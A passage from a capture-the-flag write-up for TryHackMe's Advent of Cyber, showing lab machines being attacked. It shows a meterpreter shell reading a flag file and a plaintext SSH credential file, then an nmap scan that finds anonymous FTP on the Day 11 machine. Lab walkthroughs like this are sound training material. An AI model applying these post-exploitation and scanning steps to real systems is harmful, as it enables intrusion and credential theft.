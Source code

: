 ```
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

`THM{3ad96bb13ec963a5ca4cb99302b37e12}`

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

```
meterpreter > shell
Process 51 created.
Channel 1 created.
ls /home/
santa
ls /home/santa
ssh-creds.txt
cat /home/santa/ssh-creds.txt
santa:rudolphrednosedreindeer
```

`rudolphrednosedreindeer`

3. Who is on line 148 of the naughty list?

```
[santa@ip-10-10-73-143 ~]$ sed '148!d' naughty_list.txt
Melisa Vanhoose
```

`Melisa Vanhoose`

4. Who is on line 52 of the nice list?

```
[santa@ip-10-10-73-143 ~]$ sed '52!d' nice_list.txt
Lindsey Gaffney
```

`Lindsey Gaffney`

## [Day 11] Elf Applications

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out?

Deploy the machine and starting scanning the IP. **The machine may take a few minutes to boot up**.

Check out the supporting material [here](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#).

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.89.226
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 11:20 CEST
Nmap scan report for 10.10.89.226
Host is up (0.030s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
```